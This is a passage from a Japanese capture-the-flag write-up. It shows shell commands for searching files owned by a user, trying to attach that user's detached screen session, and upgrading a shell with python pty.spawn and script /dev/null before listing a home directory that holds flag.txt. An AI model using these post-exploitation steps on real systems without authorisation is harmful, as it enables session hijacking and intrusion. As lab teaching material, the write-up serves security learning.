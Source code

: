 
<br>
このユーザ（mwazowski）が所有するファイルをみてみます。
<pre>
find / -user mwazowski
:
(略)
:
/proc/772/patch_state
/run/screen/S-mwazowski
/run/screen/S-mwazowski/756.Jw7hxfsUAP
/tmp/.tmp.Jw7hxfsUAP.swp
/home/mwazowski
/home/mwazowski/.profile
/home/mwazowski/.bashrc
/home/mwazowski/.bash_logout
/home/mwazowski/.viminfo
/dev/pts/0
:
:
</pre>

<br>
どうやら、screenを使っているようです。

<pre>
screen -ls
There is a screen on:
	756.Jw7hxfsUAP	(03/20/20 03:33:45)	(Detached)
1 Socket in /run/screen/S-mwazowski.
screen -r 756
Must be connected to a terminal.
pwd
/tmp
python -c 'import pty; pty.spawn("/bin/bash");'
screen -r 756
Must be connected to a terminal.
</pre>

<br>
このterminalなんじゃらのエラー("Must be connected to a terminal")は、ちょっとググったところ `script /dev/null` で直るとのこと。

<pre>
script /dev/null
Script started, file is /dev/null
mwazowski@97c3648d9667:/tmp$ cd /home
cd /home
lmwazowski@97c3648d9667:/home$ls -la
ls -la
total 16
drwxr-xr-x 1 root      root      4096 Mar 19 02:06 .
drwxr-xr-x 1 root      root      4096 Mar 20 03:19 ..
drwxr-xr-x 1 mwazowski mwazowski 4096 Mar 20 03:31 mwazowski
mwazowski@97c3648d9667:/home$ cd mwazowski
cd mwazowski
mwazowski@97c3648d9667:~$ ls -la
ls -la
total 48
drwxr-xr-x 1 mwazowski mwazowski  4096 Mar 20 03:31 .
drwxr-xr-x 1 root      root       4096 Mar 19 02:06 ..
-rw-r--r-- 1 mwazowski mwazowski   220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 mwazowski mwazowski  3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 mwazowski mwazowski   807 Apr 18  2019 .profile
-rw------- 1 mwazowski mwazowski 10201 Mar 20 03:31 .viminfo
-rw-rw-r-- 1 root      root         28 Mar 19 00:40 flag.txt
-rw-r--r-- 1 root      root         96 Mar 19 02:06 manually_installed_packages.txt